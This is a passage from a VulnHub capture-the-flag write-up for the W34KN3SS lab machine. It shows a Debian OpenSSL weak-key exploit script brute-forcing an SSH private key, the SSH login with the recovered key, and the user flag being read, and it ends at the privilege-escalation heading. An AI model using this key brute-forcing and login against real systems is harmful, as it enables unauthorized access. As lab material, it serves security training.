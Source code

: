 		┌──(root💀kali)-[~/vulnHub/W34KN3SS/192.168.236.9/exploit/openssl-0.9.8c-1]
		└─# python 5720.py rsa/2048/ 192.168.236.9 n30 22 5

		-OpenSSL Debian exploit- by ||WarCat team|| warcat.no-ip.org
		Tested 202 keys | Remaining 32566 keys | Aprox. Speed 40/sec

		Key Found in file: 4161de56829de2fe64b9055711f531c1-2537
		Execute: ssh -ln30 -p22 -i rsa/2048//4161de56829de2fe64b9055711f531c1-2537 192.168.236.9

		Tested 280 keys | Remaining 32488 keys | Aprox. Speed 15/sec
		```
	- Found key `4161de56829de2fe64b9055711f531c1-2537`
	![](images/Pasted%20image%2020220124202456.png)
## TCP/22 - SSH 
1. SSH w/ `4161de56829de2fe64b9055711f531c1-2537`
	```
	┌──(root💀kali)-[~/vulnHub/W34KN3SS/192.168.236.9/exploit/openssl-0.9.8c-1]
	└─# ssh -p22 -i rsa/2048//4161de56829de2fe64b9055711f531c1-2537 n30@$ip
	Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)

	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage

	Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

	Last login: Tue Aug 14 13:29:20 2018 from 192.168.209.1
	n30@W34KN3SS:~$ 
	```
	![](images/Pasted%20image%2020220124202535.png)
2. User Flag
	```
	n30@W34KN3SS:~$ cat user.txt 
	25e3cd678875b601425c9356c8039f68
	n30@W34KN3SS:~$ 
	```
	![](images/Pasted%20image%2020220124202640.png)
# Privilege Escalation